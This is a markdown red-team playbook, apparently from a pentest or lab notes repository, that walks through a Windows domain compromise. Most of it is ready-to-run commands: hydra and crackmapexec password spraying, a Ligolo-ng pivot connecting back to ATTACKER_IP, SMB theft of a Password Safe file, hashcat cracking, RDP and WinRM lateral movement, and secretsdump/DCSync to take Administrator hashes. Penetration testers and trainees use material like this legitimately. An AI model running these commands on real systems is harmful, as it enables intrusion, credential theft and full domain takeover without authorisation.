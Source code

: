 ```yaml
---
title: "DMZ Foothold → Pivot → Credential Chain → DC Compromise"
tags: [dmz, pivoting, ligolo, credential-chain, smb, password-spraying, pass-the-hash]
author: "RedMind"
date: 2025-10-01
---
```


# DMZ Foothold → Pivot → Credential Chain → DC Compromise

**TL;DR**  
From an initial DMZ credential or sparse credential clue, gain a foothold, establish a stable pivot (Ligolo‑ng), enumerate SMB/RDP/WinRM surfaces, extract credential material (password safes, cached creds), crack offline where applicable, then escalate laterally to a jump host and onward to the Domain Controller via Pass‑The‑Hash or DCSync techniques.

---

## Goal
- Obtain initial access in DMZ from credential spray or discovered credential artifacts.  
- Establish a pivot into internal subnet for enumeration and lateral movement.  
- Harvest credential artifacts (password safe files, cached creds) and obtain NTLM/Administrator hashes for domain compromise.

## Prerequisites
- Environment: attacker host with `ligolo-ng`, `smbclient`, `smbmap`, `nmap`, `hydra`/`crackmapexec`, `hashcat`, and `snaffler` (or similar).  
- Basic familiarity with SMB enumeration and RDP/WinRM tooling.

---

## High-Level Flow
1. Generate username candidates and password-spray SSH/other DMZ services to find weak creds.  
2. Use valid credential(s) to access DMZ host (DMZ01). Drop pivot tooling (Ligolo‑ng or similar).  
3. Pivot into internal range (e.g., `172.16.119.0/24`).  
4. Enumerate SMB shares, harvest artifacts (e.g., `.psafe3` Password Safe files).  
5. Crack offline artifacts with `hashcat` to obtain plaintext credentials.  
6. Use newly discovered creds to access jump hosts (JUMP01).  
7. Use Mimikatz or other techniques to obtain NTLM/hash and move to DC.  
8. Use `secretsdump`, `DCSync`, or PTH to obtain the Administrator hash and confirm domain compromise.

---

## Commands & Techniques

### 1) Username generation & password spray (SSH/RDP/SMB)
```bash
# hydra example (ssh)
hydra -L users.txt -P rockyou.txt ssh://10.10.10.10 -t 8

# crackmapexec spray (smb/rpc)
crackmapexec smb 172.16.119.0/24 -u users.txt -p 'Password1' --continue-on-success
```

### 2) Drop and run Ligolo‑ng pivot
```bash
# on attacker
ligolo-ng -listen 0.0.0.0:9001 -proto tcp -server
# on DMZ host (staged)
./ligolo-ng -client -remote ATTACKER_IP:9001 -proto tcp
```

### 3) SMB enumeration & pull artifacts
```bash
smbclient -U 'NEXURA\hwilliam' \
  '\\172.16.119.10\HR' -c 'cd Archive; get Employee-Passwords_OLD.psafe3'

# use smbmap to list shares
smbmap -H 172.16.119.10 -u hwilliam -p 'password'
```

### 4) Crack Password Safe v3 (.psafe3)
```bash
# hashcat mode 5200 (Password Safe v3)
hashcat -m 5200 Employee-Passwords_OLD.psafe3 /usr/share/wordlists/rockyou.txt.gz --force
```

### 5) Lateral movement: RDP / WinRM / SMB
```bash
# xfreerdp (RDP)
xfreerdp /v:JUMP01 /u:administrator /p:'P@ssw0rd'

# evil-winrm example for WinRM
evil-winrm -i JUMP01 -u Administrator -p 'P@ssw0rd'
```

### 6) Dumping credentials / hashes
```bash
# Mimikatz (lsass) on a jump host
# Or use impacket-secretsdump for remote dumping with creds
impacket-secretsdump -outputfile creds -just-dc-user Administrator 'DOMAIN/JUMP01$'@dc01.domain.local

# DCSync via impacket if you have replication rights
secretsdump.py -just-dc -outputfile dump DOMAIN/Administrator@dc01.domain.local
```

---

## Things to Watch For (red flags)
- Password safes in shared folders (`.psafe3`, KeePass, etc.).  
- Reused credentials across DMZ → internal jump hosts.  
- Unexpected SMB shares with backup/archive files.  
- Presence of defensive tooling that may detect pivoting (EDR/IPS in lab may be disabled).

## Cleanup & Safety
- Remove ligolo client binaries and any uploaded tools.  
- Clear temporary files, check for persistent services created by you.  
- In lab: snapshot/rollback. In real engagements: document actions and leave forensic artifacts intact unless otherwise agreed per ROE.

---

## Further reading / tools
- `ligolo-ng` (pivoting) — multi‑hop tunneling.  
- `snaffler` — artifact hunting.  
- `hashcat` — offline cracking.  
- `impacket` tools — `secretsdump`, DCSync helpers.

